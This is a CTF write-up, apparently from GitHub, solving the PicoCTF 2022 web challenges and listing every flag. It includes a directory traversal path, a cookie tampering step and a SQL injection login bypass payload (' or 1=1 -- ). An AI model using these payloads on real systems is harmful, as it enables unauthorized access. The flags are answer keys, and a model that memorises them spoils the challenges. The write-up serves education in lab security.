


# PicoCTF 2022


## Includes 


In the source, style.css and script.js contains each part of the flag.

```
picoCTF{1nclu51v17y_1of2_f7w_2of2_3d50f001}
```

## Inspect HTML


Flag in HTML source.

```
picoCTF{1n5p3t0r_0f_h7ml_ab1df88d}
```

## Local Authority


Sending a random username and password that fits the criteria (only letters and numbers allowed) return us a response that contains a javascript of how the login is parsed. The checkPassword function is used to authenticate the user. This function is not within the current script, but included from `secure.js`. 


Upon accessing `secure.js`, we get the username and password.


We get the flag after logging in with the credentials.

```
picoCTF{j5_15_7r4n5p4r3n7_d6a44d91}
```

## Search Source


It was mentioned that the artifact is in the website source. I look through the source finding the keyword "pico".


```
picoCTF{1nsp3ti0n_0f_w3bpag3s_3003ba70
```

## Forbidden Paths


A simple directory traversal payload will do:
```
../../../../flag.txt
```


```
picoCTF{7h3_p47h_70_5ucc355_57e411a1}
```

## Power Cookie


Changing the `isAdmin` cookie from 0 to 1, we get the flag.



```
picoCTF{gr4d3_A_c00k13_65fd1e1a}
```

## Roboto Sans


Check `/robots.txt`, there is a base64-encoded directory in the listing. Decoding it gives us `js/myfile.txt`.


```
>> echo -n "anMvbXlmaWxlLnR4dA==" | base64 -d
js/myfile.txt 
```

Accessing the file give us the flag.


```
picoCTF{Who_D03sN7_L1k5_90B0T5_22ce1f22}
```

## Secrets



The main page showed us that there is a `/secret` directory.


Accessing the `secret` directory lead us to the `/secret/hidden` directory.


Leading to `secret/hidden/superhidden` directory.


The flag is hidden in the source.


```
picoCTF{succ3ss_@h3n1c@10n_51b260fe}
```

## SQL Direct


```
>> psql -h saturn.picoctf.net -p 52154 -U postgres pico
Password for user postgres: 
psql (14.2 (Debian 14.2-1))
Type "help" for help.

pico=# \l
                                 List of databases
   Name    |  Owner   | Encoding |  Collate   |   Ctype    |   Access privileges   
-----------+----------+----------+------------+------------+-----------------------
 pico      | postgres | UTF8     | en_US.utf8 | en_US.utf8 | 
 postgres  | postgres | UTF8     | en_US.utf8 | en_US.utf8 | 
 template0 | postgres | UTF8     | en_US.utf8 | en_US.utf8 | =c/postgres          +
           |          |          |            |            | postgres=CTc/postgres
 template1 | postgres | UTF8     | en_US.utf8 | en_US.utf8 | =c/postgres          +
           |          |          |            |            | postgres=CTc/postgres
(4 rows)
```
```
pico=# \c pico
You are now connected to database "pico" as user "postgres".
```
```
pico=# \dt
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | flags | table | postgres
(1 row)
```
```
pico=# SELECT * FROM flags;
 id | firstname | lastname  |                address                 
----+-----------+-----------+----------------------------------------
  1 | Luke      | Skywalker | picoCTF{L3arN_S0m3_5qL_t0d4Y_73b0678f}
  2 | Leia      | Organa    | Alderaan
  3 | Han       | Solo      | Corellia
(3 rows)
```

```
picoCTF{L3arN_S0m3_5qL_t0d4Y_73b0678f}
```

## SQLiLite


Using a simple `' or 1=1 -- ` payload, we bypassed the login.


```
picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}
```

